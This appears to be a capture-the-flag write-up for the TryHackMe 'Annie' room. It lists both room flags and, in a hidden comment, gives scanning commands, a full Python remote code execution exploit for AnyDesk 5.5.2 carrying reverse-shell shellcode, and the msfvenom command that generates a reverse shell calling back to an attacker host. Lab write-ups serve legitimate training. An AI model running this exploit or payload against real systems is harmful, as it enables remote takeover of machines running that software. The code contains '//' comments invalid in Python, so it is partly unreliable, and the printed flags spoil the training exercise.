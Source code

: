 # <div align="center">[Annie  — TryHackMe Flags](https://tryhackme.com/r/room/annie)</div>
## <div align="center">   Linux ● Medium </div>
<div align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/9bcbd71d6ed380bcbf41c10cce8ccfcd.png" height="200"></img>
</div>

## Task 1. Recon - Research - Exploit

Do your usual recon, go for some vulnerability research, and exploit this box already.
Also, don't forget the PrivEsc of course :)

Good luck & have fun!

## What is user.txt?
```
THM{N0t_ ju5t_ANY_D3sk}
```

## What is root.txt?
```
THM{0nly_ th3m_5.5.2_D3sk}
```
<!--
# Let start with Scanning the target:
```
nmap -sC -sV
```
## SSL Enumeration
```
openssl s_client -connect 10.10.10.10:7070
```
## Anydesk is Running on port 7070, let serch for any Exploit
```
searchsploit anydesk
```
## Here is the Exploit:
```
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881
import struct
import socket

## Note changes have been made from the original exploit

ip = '10.10.29.248'// Change This
port = 50001 // No Need To Change This Since Anydesk uses UDP ports for screensharing purposes

def gen_discover_packet(ad_id, os, hn, user, inf, func):
    d  = b'\x3e\xd1\x01'
    d += struct.pack('>I', ad_id)
    d += struct.pack('>I', 0)
    d += b'\x02' + bytes([os])
    d += struct.pack('>I', len(hn)) + hn
    d += struct.pack('>I', len(user)) + user
    d += struct.pack('>I', 0)
    d += struct.pack('>I', len(inf)) + inf
    d += b'\x00'
    d += struct.pack('>I', len(func)) + func
    d += b'\x02\xc3\x51'
    return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b"" // Make sure to generate the msfvenom reverse shell payload and replace the shellcode below 
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x39\xe2\xbf"
shellcode += b"\x91\x75\x37\x67\xa8\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x53\xcb\xe7\x08\x1f"
shellcode += b"\x35\x38\xc2\x38\xbc\xb0\x94\x3d\xa0\x2f\x11"
shellcode += b"\x3b\xe2\xae\xcd\x7f\x3a\x79\xad\x68\xaa\x36"
shellcode += b"\x77\x1f\x27\x3d\xc2\x13\xba\xb0\x94\x1f\x34"
shellcode += b"\x39\xe0\xc6\x2c\xd5\xb0\x2d\x38\x62\xdd\xcf"
shellcode += b"\x88\x84\xc9\xec\x7f\xdc\x87\x5b\x8b\xd1\xbe"
shellcode += b"\x06\x5f\x67\xfb\x71\x6b\x58\xc3\x22\x7f\xee"
shellcode += b"\x4e\x36\xe7\xbf\x91\x75\x37\x67\xa8"

print('sending payload ...')
p = gen_discover_packet(4919, 1, b'\x85\xfe%1$*1$x%18x%165$ln' + shellcode, b'\x85\xfe%18472249x%93$ln', b'ad', b'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()

print('reverse shell should connect within 5 seconds')
```

## Creating shell code 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```
